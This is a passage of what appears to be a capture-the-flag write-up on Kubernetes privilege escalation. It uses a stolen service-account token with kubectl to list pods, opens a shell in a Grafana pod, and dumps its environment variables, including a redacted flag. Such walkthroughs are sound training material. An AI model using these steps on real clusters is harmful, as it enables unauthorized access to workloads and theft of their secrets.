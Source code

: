 ```console
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

From the pods, we can see that there is a grafana pod running. With the secret we got earlier, we should be able to break into that pod and check for any sensitive data we can use to escalate further.

```console
./kubectl get pods --token=${token}
NAME                       READY   STATUS    RESTARTS       AGE
grafana-57454c95cb-v4nrk   1/1     Running   10 (25d ago)   49d
syringe-79b66d66d7-7mxhd   1/1     Running   1 (25d ago)    25d
```

The service account we're using is developer.

```console
./kubectl get serviceaccount --token=${token}
NAME        SECRETS   AGE
default     1         49d
developer   1         49d
syringe     1         49d
```

Breaking into grafana pod and looking at environment variables. ;)

```console
./kubectl exec -it grafana-57454c95cb-v4nrk --token=${token} -- /bin/bash
hostname
grafana-57454c95cb-v4nrk
env
KUBERNETES_SERVICE_PORT_HTTPS=443
GRAFANA_SERVICE_HOST=10.10.151.225
KUBERNETES_SERVICE_PORT=443
HOSTNAME=grafana-57454c95cb-v4nrk
SYRINGE_PORT=tcp://10.99.16.179:3000
GRAFANA_PORT=tcp://10.10.151.225:3000
SYRINGE_SERVICE_HOST=10.99.16.179
SYRINGE_PORT_3000_TCP=tcp://10.99.16.179:3000
GRAFANA_PORT_3000_TCP=tcp://10.10.151.225:3000
PWD=/usr/share/grafana
GF_PATHS_HOME=/usr/share/grafana
SYRINGE_PORT_3000_TCP_PROTO=tcp
HOME=/home/grafana
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
FLAG=flag{redacted}
SHLVL=1
SYRINGE_PORT_3000_TCP_PORT=3000
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GRAFANA_PORT_3000_TCP_PORT=3000
```